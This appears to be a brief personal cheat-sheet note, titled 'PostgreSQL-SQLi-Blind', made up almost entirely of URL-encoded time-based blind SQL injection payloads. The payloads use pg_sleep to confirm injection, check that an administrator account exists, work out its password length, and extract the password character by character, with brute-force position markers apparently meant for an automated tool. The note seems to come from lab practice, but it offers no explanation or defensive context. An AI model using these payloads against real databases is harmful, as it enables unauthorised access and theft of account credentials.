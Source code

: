 ```yaml
---
title: PostgreSQL-SQLi-Blind
updated: 2023-11-06 11:43:07Z
created: 2023-11-06 11:15:49Z
latitude: -35.28093680
longitude: 149.13000920
altitude: 0.0000
---
```



`SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END`
`SELECT CASE WHEN (1=2) THEN pg_sleep(10) ELSE pg_sleep(0) END`

`'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--`

`'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`

`'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
`'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
`'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>3)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
etc
`'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`

`'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`

`'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,2,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`